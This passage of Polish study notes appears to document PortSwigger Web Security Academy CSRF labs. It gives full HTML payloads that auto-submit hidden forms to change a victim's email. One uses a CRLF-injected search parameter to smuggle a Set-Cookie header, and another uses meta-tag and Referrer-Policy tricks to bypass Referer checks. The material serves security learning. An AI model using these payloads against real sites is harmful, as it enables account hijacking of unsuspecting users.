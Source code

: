 - `%0d%0a` -> nowa linia

## Lab:CSRF token is tied to a non-session cookie
1. Jeśli mamy do zmiany dwa parametry warto użyć
`<img src="https://0ac9004504dc6294c0621d30000900a0.web-security-academy.net/?search=12341234%0d%0ASet-Cookie%3a+csrfKey%3dyoJrLzW6dVmSBKMnxPC8ZDk3wCmqjDWM" onerror="document.forms[0].submit()">`, bo wtedy mamy pewność, że zapytania wykonają się w odpowiedniej kolejności
```
    <html>
        <body>
            <form action="https://0ac9004504dc6294c0621d30000900a0.web-security-academy.net/my-account/change-email" method="POST">
                <input type="hidden" name="email" value="pwned@evil-user.net" />
                <input type="hidden" name="csrf" value="iDJaenyZIgBuL3FulGTs64h3SdAfNrIC" />
            </form>
            <img src="https://0ac9004504dc6294c0621d30000900a0.web-security-academy.net/?search=12341234%0d%0ASet-Cookie%3a+csrfKey%3dyoJrLzW6dVmSBKMnxPC8ZDk3wCmqjDWM" onerror="document.forms[0].submit()">
        </body>
    </html>
```

## Lab: CSRF where Referer validation depends on header being present 
1. Z racji, że po usunięciu nagłówka Referer pomijane jest jego sprawdzenie, to należy dodać `<meta name="referrer" content="never">`, który informuje stronę, any takiego nagłówka nie dodawać
2. Cały payhload wygląda tak:
``` 
    <html>
        <body>
            <meta name="referrer" content="never">
            <form action="https://0ab0001b03ab5131c0f5dffe00e50064.web-security-academy.net/my-account/change-email" method="POST">
                <input type="hidden" name="email" value="pwned@evil-user.net" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
```

## Lab: CSRF with broken Referer validation
1. Ochrona przed CSRF polega na sprawdzaniu pola Referer w nagłówku, sprawdzanie polega jednak tylko na tym czy jest w nim strona, której szuka regex tj. działa również:
`	dobra_strona.zła_strona.com`
`	zla_strona.pl/dobra_strona`
2. Dodatkowo w przeglądarce z zasady ucianae jest to co po slashu, a aby temu zapobiec należy dodać pole `Referrer-Policy: unsafe-url` i wtedy wszystko działa, a linkiem w serwerze jest `strona_z_exploitem.com/dobra_strona`

# CORS
